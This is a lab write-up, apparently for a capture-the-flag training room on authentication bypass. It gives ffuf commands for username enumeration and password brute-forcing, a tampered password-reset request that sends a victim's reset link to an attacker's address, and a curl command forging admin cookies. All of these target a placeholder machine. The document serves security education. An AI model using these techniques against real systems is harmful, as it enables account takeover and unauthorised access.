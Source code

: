 ![image](https://github.com/user-attachments/assets/6ff2de4c-16d6-4f67-ac3d-6d15c1d3f28e)



# Room Summary: Authentication Bypass


## ✅ Task 2: Username Enumeration

### 🧠 Objective:
Identify valid usernames by analyzing the web application's response messages during registration attempts.

### 🛠️ Technique:
- The signup form returns a **distinct error message** if a username already exists:
  ```
  username already exists
  ```
- We use this behavior to enumerate valid usernames from a wordlist.

### 🧪 Tool Used:
- [`ffuf`](https://github.com/ffuf/ffuf) – a fast web fuzzer.

### 🔍 Command:
```bash
ffuf -w usernames.txt -X POST -d "username=FUZZ&password=Test123&confirm_password=Test123" -H "Content-Type: application/x-www-form-urlencoded" -u http://<MACHINE_IP>/register -mc all
```

### ✅ Filtering:
Look for responses **containing the error message** or different length/status.

### 📌 Outcome:
Identify valid usernames that can be used in brute-force attacks.

---

## ✅ Task 3: Brute Force

### 🧠 Objective:
Brute-force login credentials using valid usernames and a password wordlist.

### 🛠️ Technique:
Try all combinations of identified usernames with common passwords until the login succeeds.

### 🧪 Tool Used:
- `ffuf` (again).

### 🔍 Command:
```bash
ffuf -w users.txt:USER -w passwords.txt:PASS -u http://<MACHINE_IP>/login -X POST -d "username=USER&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -mc 200
```

### 📌 Notes:
- Success is indicated by **HTTP 200 OK** with a different response size or message.
- Use double wordlists with `-w` for username-password pairs.

### 📌 Outcome:
Credentials to access a user account.

---

## ✅ Task 4: Logic Flaw in Password Reset

### 🧠 Objective:
Exploit a logic flaw in the password reset mechanism to gain access to another user’s account.

### 🛠️ Technique:
- The password reset feature is vulnerable due to poor separation of GET and POST parameters.
- The **GET parameter** is used to fetch the account, while the **POST parameter** is used to send the email with the reset link.

### 🧪 Exploitation Steps:
1. Navigate to:
   ```
   http://<MACHINE_IP>/reset-password?email=victim@target.com
   ```
2. Intercept the POST request when submitting the form.
3. **Modify the `email` parameter in the POST body** to your own address:
   ```http
   POST /reset-password?email=victim@target.com HTTP/1.1
   Host: <MACHINE_IP>
   ...
   email=attacker@yourdomain.com
   ```
4. The reset link for the victim is sent to the attacker’s email.

### 📌 Outcome:
Password reset link for the victim’s account is sent to the attacker. You reset and gain access.

---

## ✅ Task 5: Cookie Tampering

### 🧠 Objective:
Escalate privileges by manipulating session cookies.

### 🛠️ Technique:
The application uses cookies like:
- `logged_in=true`
- `admin=false`

These can be manipulated to gain unauthorized access.

### 🧪 Steps:
1. **Access a normal user account** and inspect cookies.
2. Modify cookies manually using browser DevTools or `curl`.

### 🔍 Example with curl:
```bash
curl -b "logged_in=true; admin=true" http://<MACHINE_IP>/admin
```

3. If access is granted, the application doesn’t validate cookie values securely.

### 🧠 Advanced:
Some cookies might be hashed or encoded (e.g., MD5, SHA-1). You may need to:
- Decode or brute-force hashes.
- Identify weak cryptographic implementations.

### 📌 Outcome:
- Privilege escalation to admin.
- Understanding of insecure cookie handling.

---

## 🔚 Conclusion

This room teaches core web security weaknesses:

| Task | Focus                         | Vulnerability Type             |
|------|-------------------------------|--------------------------------|
| 2    | Username Enumeration          | Information Disclosure         |
| 3    | Brute-force Login             | Lack of Rate Limiting/Lockout  |
| 4    | Password Reset Logic Flaw     | Business Logic Flaw            |
| 5    | Cookie Tampering              | Insecure Session Management    |

---

## 🧠 Tip:
Always test for logic flaws, examine cookies, and pay attention to error messages—they often leak valuable information!
